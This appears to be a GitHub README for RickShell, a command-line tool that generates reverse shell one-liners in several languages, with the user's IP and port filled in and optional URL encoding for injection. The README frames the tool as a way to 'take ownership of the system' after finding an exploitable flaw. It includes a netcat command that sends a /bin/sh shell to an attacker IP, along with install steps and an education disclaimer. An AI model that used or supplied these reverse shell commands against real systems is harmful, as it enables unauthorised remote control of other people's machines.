 
# 🧬 RickShell  


use one of the reverse shell commands in this tool to take ownership of the system when you find a vulnerability that you can exploit ;-)

## 💡 HOW TO USE

`RickShell` command gives you the **top 10** most used shells. The tool will automatically type your ip address and a suitable port into the command.

### The following arguments can be used:

- `RickShell -p netcat` *netcat reverse shell commands.*

- `RickShell - p bash`   *bash reverse shell commands.*

- `RickShell -p php` *php reverse shell commands.* 

- `RickShell -p python` *python reverse shell commands.*

- `RickShell -p java` *java reverse shell commands.*
 
- `RickShell -p powershell`  *powershell reverse shell commands.*

- `RickShell -p telnet` *telnet reverse shell commands.*

---
_these commands automatically assign your ip address and port. 🪄_
 - e.g: `nc -e /bin/sh 192.168.100.23 4444  `

_but if you want to use a different ip and port, you can use the following arguments_

- `RickShell -ip 192.168.1.1 --port 4242`
- `RickShell -p bash -ip 192.168.1.1 --port 4242`  etc.
---
#### 🌐  if you are going to use it in the url, use the following command. this sets your shell command for the url (-ue)

- `RickShell -ue` / `RickShell -p bash -ue` / 
- `RickShell -ip 192.168.1.1 --port 4242 -ue` etc.

---

## 📜 Installation

`git clone https://github.com/Rickidevs/RickShell.git`

`cd RickShell`

`chmod +x setup.sh`

`./setup.sh`

---

## ⚖️  Disclaimer

_you are fully responsible for legal or illegal use. remember that this tool is designed for education_

---

✉️ Contact Me   - [Telegram](https://t.me/hackerrick)
